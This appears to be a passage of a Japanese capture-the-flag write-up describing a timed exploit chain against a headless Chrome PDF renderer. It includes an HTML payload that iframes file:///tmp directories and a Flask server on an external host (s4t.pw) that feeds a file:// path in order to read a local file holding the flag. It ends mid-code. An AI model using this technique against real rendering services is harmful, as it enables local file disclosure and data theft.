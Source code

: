 ```
    <- chrome://history/よりUUID(1)を取得するリクエスト --- ①
    <- 5sだけindex.htmlのリクエストが来るのを待って、sato1.htmlで/tmp/UUID(1)/を列挙してUUID(2)を取得するリクエスト --- ②
    [6s待機]
    <- 12sだけ待って、sato2.htmlでs4t.pwをfetchして/UUID(1)/UUID(2)/を取得し、/tmp/UUID(1)/UUID(2)/index.htmlを読み取るリクエスト --- ③
    [15s待機]
    <- entrypoint.shの5sごとのフラグを含むリクエスト --- ④
```
詳細にリクエストを説明すると以下となる。  

①  
`UUID(1)`はある程度の時間は固定なので、あらかじめ`chrome://history/`より取得できる。  
この際に取得した`UUID(2)`はすでに削除されたindex.htmlのものであるため、利用できないことに注意する。  
ちなみに、このリクエストは待機させる必要はない。  
②  
`waitDelay=6s`とし、5sごとに送信されるindex.htmlのリクエストが待機中に必ず到着するようにする。  
sato1.htmlでは以下の通り、5s待機してindex.htmlのリクエストが到着した後に、`/tmp/UUID(1)/`を列挙することで、削除される前の`UUID(2)`を応答pdfから取得できる。  
```html
<html lang="en">
<head>
    <title>Satoki-1</title>
</head>
<body>
    <script>
        UUID_1 = "UUID(1)";
        setTimeout(() => {
            const iframe = document.createElement('iframe');
            iframe.width = 1000;
            iframe.height = 300;
            iframe.src = `file:///tmp/${UUID_1}/`;
            document.body.appendChild(iframe);
        }, 5000);
    </script>
</body>
</html>
```
複数の`UUID(2)`が取得できるが、そのうちどれかがアタリであるのでいくつか試す。  
`UUID(2)`を取得したら、すぐに外部サーバs4t.pwを建てて以下のapp.pyへ`UUID(1)/UUID(2)`を登録する。  
```python
from flask import Flask, request, make_response

app = Flask(__name__)

UUID_12 = "UUID(1)/UUID(2)"

@app.route("/", methods=["GET", "OPTIONS"])
def index():

    def add_cors_headers(resp):
        resp.headers["Access-Control-Allow-Origin"] = "*"
        resp.headers["Access-Control-Allow-Methods"] = "GET,POST,OPTIONS"
        resp.headers["Access-Control-Allow-Headers"] = "*"
        return resp

    if request.method == "OPTIONS":
        resp = make_response()
        return add_cors_headers(resp)

    resp = make_response(f"file:///tmp/{UUID_12}/index.html")
    return add_cors_headers(resp)


if __name__ == "__main__":
```